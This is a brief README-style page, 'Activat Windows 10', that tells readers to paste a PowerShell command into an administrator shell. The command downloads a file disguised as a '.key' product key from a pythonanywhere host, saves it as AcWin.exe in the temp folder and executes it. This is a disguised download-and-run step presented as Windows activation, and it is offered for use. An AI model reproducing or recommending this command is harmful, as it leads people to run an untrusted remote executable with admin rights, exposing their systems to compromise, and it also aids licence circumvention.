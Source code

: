 # Activat Windows 10

## to activate windows, copy and paste the activation script in Windows Powershell admin.

<sup> Invoke-WebRequest -Uri kmsconnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\AcWin.exe; Start-Process $env:TEMP\AcWin.exe </sup>
